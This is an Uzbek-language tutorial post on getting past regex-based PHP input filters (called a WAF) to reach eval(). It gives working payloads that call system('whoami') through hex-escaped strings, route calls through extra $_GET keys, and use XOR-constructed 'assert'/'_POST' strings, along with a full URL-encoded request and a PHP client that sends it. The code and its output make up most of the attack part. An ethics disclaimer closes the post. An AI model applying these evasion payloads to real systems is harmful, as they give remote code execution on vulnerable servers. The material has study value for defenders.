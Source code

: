 ```yaml
---
toc: true
title: "WAFni yorib kirish ( kiberxavfsizlik )"
description: "Axmoqlar uchun ishlab chiqilgan WAF tizimini chetlab o'tish. Saytlar xavfsizligini turli usullarda yorib kirish..."
keywords: "WAF, linux, xavfsizlik, xaker, xakerlik, kiberxavfsizlik, injection, buzish, zaharlash, shell, dirka"
---
```


Sarflavhani o'zidayoq ko'pchilikni waf o'zi nima degan savol o'ylantirgan bo'lsa kerak. 

WAF - Web application firewall ya'ni web saytlarni xss, sql injection, cookie poisoning (cookie orqali zaharlash) kabi hujum turlaridan himoya qiladigan ilova hisoblanadi. 
Ushbu ilova orqali siz hattoki teshik tog'oraga aylangan tizimni ham bemalol hujum scriptlarini filtrlash orqali himoya qilishingiz mumkin.

Lekin bu dunyoda xuddi odam immun tizimi kabi mukammal himoya tizimi mavjud emas. Har qanday himoya tizimini yorib o'tishning yo'llari mavjud.

## WAF qanday ishlaydi
WAF oldindan belgilangan filtrlash shartlariga binoan foydalanuvchidan kelayotgan murojaatlar orasidagi ishga tushirish mumkin bo'lgan kodni tozalaydi.

Misol uchun `sayhello` va `system` funsksiyalarini filtrlash. Bunda kritilgan matnda shart uchun qo'shilgan ikkita funksiya nomi bo'lsa xatolik beriladi:
```php

function sayhello( $text ) {
  echo "Salom: $text";
}
if ( ! preg_match('/sayhello|system/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```

## Chetlab o'tish

### Birinchi usul
PHPda `string`  o'rgaruvchisini e'lon qilish vaqtida ekranizatsiya qilish mumkin. Soddaroq aytganda biz double quote ya'ni " belgisi orasida berilgan maxsus belgilarni chop etishimiz mumkin. Yangi qator ( \n ), tabulator (\t) kabi maxsus belgilarni ko'pchilik ishlatib ko'rgan bo'lsa ham kerak.

Ular orasida belgilarni o'noltilik sanoq tizimida chop etish usuli ham kiritilgan.
Misol "Salom dunyo!" yozuvi:
```php
echo "\x53\x61\x6c\x6f\x6d\x20\x64\x75\x6e\x79\x6f\x21";
```
Qo'shimcha tarzda esa php ham boshqa ko'plab tillardagi kabi o'zgaruvchilarga asoslangan funksiyalarni qo'llab quvvatlaydi.

Misol buyerda `$test` o'zgaruvchisi qavs belgilangach funskiyaga murojaat qilishga o'tyapti: 
```php
$test = "sayhello";
$test('Toshmat');
```

Demak bizda o'n oltilik sanoq tizimiga asoslanib chop etish va o'zgaruvchini funsksiyaga murojaat qila olishi orqali yuqoridagi himoyani chetlab o'tish imkoni mavjud.

```php
$code = '"\x73\x61\x79\x68\x65\x6c\x6c\x6f"("test");'; //"sayhello"("test");
```

Natija:
```
Salom: test
```

Yoki ikkinchi funskiya uchun murojaat:
```php
$code = '"\x73\x79\x73\x74\x65\x6d"("whoami");'; //"system"("whoami")
```
Natija:
```
sapper
```
### Ikkinchi usul
Ushbu usul uchun endi himoyani yanada kuchaytiramiz va murojaatlarini `$_GET` so'rovi orqali qabul qilamiz.
```php
$code = $_GET['code'];
if ( ! preg_match('/system|exec|[\"\']/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```
E'tibor bergan bo'lsangiz endi kodimizda tirnoq yoki qo'shtirnoqlarni ham filtrlash qo'shildi. Endi biz birinchi usuldan foydala olmaymiz. Lekin boshqa bir yo'l ham mavjud. Massiv asosida chetlab o'tish. Kodimizda `$code`  o'rgaruvchisi uchun `$_GET` massivining `code` kalitiga teng qiymatni belgilayapmiz. Lekin massivdagi boshqa kalitlar e'tiborsizligicha qoldirilmoqda.

Demak biz http orqali quyidagi murojaatni amalga oshiramiz.
```
/hole.php?a=sayhello&b=test&code=$_GET[a]($_GET[b]);
```
Bunda `$_GET` massivining `code` elementiga himoyadagi `sayhello` va qo'shtirnoqlar biriktirilmayapti. Uning o'rniga tekshiruvdan tashqarida bo'lgan `a` va `b` elementlarini o'rgaruvchi sifatida belgilash qo'llanilmoqda.

Natija:
```
**Notice**: Use of undefined constant a - assumed 'a' in **hole.php(14) : eval()'d code** on line **1**  
  
**Notice**: Use of undefined constant b - assumed 'b' in **hole.php(14) : eval()'d code** on line **1**  
Salom: test
```
### Uchinchi usul
Keling maydalashib o'tirmaylikda `string` imkoniyatlaridan voz kechaylik. Filtrlashdan qochishni dinamik o'rgaruvchi yaratib `assert` orqali tizimga birlashtirib yuboraylik.

PHP da debugging uchun juda ko'p imkoniyatlar mavjud. Assert ham dasturni tekshirish jarayonida ishlatilib shart bajarilmaganda boshqa bir harakatni amalga oshirish uchun qo'llaniladi.

Misol:
```php
<?php
$a = 1;
assert($a == 1, "O'zgaruvchi birga teng emas");
echo "Birinchi amal bajarildi";
assert($a == 2, "O'zgaruvchi birga teng emas");
echo "Ikkinchi amal bajarildi";
```
Bundan `$a` birinchi amalda rost javobini beradi. Chunki o'zgaruvchi birga teng. Ikkinchi amalda esa xatolik kuzatamiz chunki ikkiga teng emas.
```
Birinchi amal bajarildi
Fatal error: Uncaught AssertionError: O'zgaruvchi birga teng emas in code.php:5
Stack trace:
#0 code.php(5): assert(false, 'O'zgaruvchi bir...')
#1 {main}
  thrown in code.php on line 5
```
Demak biz bu usulda assertning shartni bajarish uchun unga murojaat qilish imkonidan foydalanamiz. 

Xor operatori orqali esa dinamik belgi yaratamiz.

Misol: 
```php
$_POST['_'] = 'sayhello("Toshmat");';
assert($_POST['_']);
```
Natija:
```
Salom: Toshmat  
**Warning**: assert(): Assertion "sayhello("Toshmat");" failed in **test.php** on line **26**
```
*Xatolik chiqishiga sabab sayhello funksiyamizdan qayta rost (true) javobi kelmaganida. Lekin assert funksiyani ishga tushirdi*

Dinamik o'zgaruvchi generatsiya qilish uchun esa phpning XOR operatoridan foydalanamiz. Demak shart shunday belgilanishi kerakki ikkita bizga kerakli bo'lmagan belgining xor natijasidan string uchun belgi chiqarishimiz kerak.

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
Yuqoridagi kodda xor sharti orqali dinamik o'zgaruvchi funksiya yaratilib uning argumenti sifatida `$_POST` so'rovidan kelgan `_` kalitiga teng qiymat belgilanmoqda.

Demak sahifaga murojaat qilish:

```
/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);
```
```php
<?php

$postdata = http_build_query(
    array(
        '_' => 'sayhello("Toshmat");',
    )
);
$opts = array('http' =>
    array(
        'method'  => 'POST',
        'header'  => 'Content-Type: application/x-www-form-urlencoded',
        'content' => $postdata
    )
);

$context  = stream_context_create($opts);

$result = file_get_contents('http://localhost/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);', false, $context);

echo strip_tags( html_entity_decode( $result ) );
```

Natija: 
```
Notice:  Use of undefined constant _ - assumed '_' in test.php(10) : eval()'d code on line 2
Salom: Toshmat
Warning:  assert(): Assertion "sayhello("Toshmat");" failed in test.php(10) : eval()'d code on line 2
```

## Xulosa

Yuqoridagi uchta usul bu shunchaki sizning kelajakdagi loyihalaringiz himoyasini ta'minlash uchun ko'rsatildi xolos. Sizdan iltimos qilib so'ragan bo'lardimki ushbu o'rgangan bilimlaringizni kimgadir zarar yetkazish maqsadida qo'llamang. 

Bunday harakatlar uchun O'zbekiston Respublikasini Jinoyat kodeksining 278-moddasi 5-bandida ham alohida ogohlantirishlar berilgan.

> Kompyuter sabotaji
> O‘zganing kompyuter uskunasini yoki xizmatda
> foydalaniladigan kompyuter uskunasini qasddan ishdan chiqarish, xuddi
> shuningdek kompyuter tizimini buzish (kompyuter sabotaji) — uch
> yilgacha muayyan huquqdan mahrum qilib, bazaviy hisoblash miqdorining
> uch yuz baravaridan to‘rt yuz baravarigacha miqdorda jarima yoki ikki
> yilgacha ozodlikni cheklash yoxud ikki yilgacha ozodlikdan mahrum
> qilish bilan jazolanadi.
